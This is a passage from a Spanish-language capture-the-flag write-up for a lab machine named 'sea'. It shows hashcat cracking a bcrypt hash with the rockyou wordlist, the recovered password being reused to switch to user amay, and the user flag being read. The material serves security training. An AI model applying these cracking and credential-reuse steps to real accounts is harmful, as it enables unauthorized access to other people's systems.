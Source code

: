 Este hash es crackeable

```bash
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Sat Dec 21 10:15:07 2024 (1 min, 0 secs)
Time.Estimated...: Sat Dec 21 10:16:07 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       51 H/s (9.55ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3056/14344384 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> dangerous
Hardware.Mon.#1..: Temp: 70c Util: 91%

Started: Sat Dec 21 10:14:19 2024
Stopped: Sat Dec 21 10:16:08 2024
```

y dicha contraseña es reutilizada por la usuaria `amay`

```bash
www-data@sea:/var/www/sea$ su amay
Password: 
amay@sea:/var/www/sea$
```

En su directorio personal está la primera flag.

```bash
amay@sea:/var/www/sea$ cd ~
amay@sea:~$ ls -la
total 36
drwxr-xr-x 5 amay amay 4096 Dec 21 04:05 .
drwxr-xr-x 4 root root 4096 Jul 30 12:58 ..
lrwxrwxrwx 1 root root    9 Aug  1 12:12 .bash_history -> /dev/null
-rw-r--r-- 1 amay amay  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 amay amay 3771 Feb 25  2020 .bashrc
drwx------ 2 amay amay 4096 Aug  1 12:22 .cache
drwx------ 3 amay amay 4096 Dec 21 04:05 .gnupg
-rw-r--r-- 1 amay amay  807 Feb 25  2020 .profile
drwx------ 2 amay amay 4096 Dec 21 06:57 .ssh
-rw-r----- 1 root amay   33 Dec 21 03:26 user.txt
amay@sea:~$ cat user.txt
de90f82b68d3f359ef3037bcf5******
```

